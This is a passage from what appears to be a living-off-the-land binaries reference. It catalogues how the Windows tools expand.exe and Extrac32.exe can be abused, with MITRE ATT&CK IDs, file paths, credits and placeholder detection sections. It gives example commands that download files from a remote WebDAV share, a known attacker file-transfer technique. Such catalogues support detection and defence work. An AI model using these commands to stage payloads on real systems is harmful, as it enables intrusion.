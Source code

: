 
 

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`expand \\webdav\folder\file.bat c:\ADS\file.bat`|Copies source file to destination.|


 

#### Search Queries


> Analytic Goes Here!


 
## Extrac32.exe

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1096</li><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>ADS</li><li>Download</li><li>Copy</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\extrac32.exe`</li><li>`C:\Windows\SysWOW64\extrac32.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>egre55 (@egre55)</li><li>Oddvar Moe (@oddvarmoe)</li><li>Hai Vaknin(Lux (@VakninHai)</li><li>Tamir Yehuda (@tim8288)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/</li><li>https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f</li><li>https://twitter.com/egre55/status/985994639202283520</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt`|Copy the source file to the destination file and overwrite it.|


 

#### Search Queries


> Analytic Goes Here!


 
## Findstr.exe
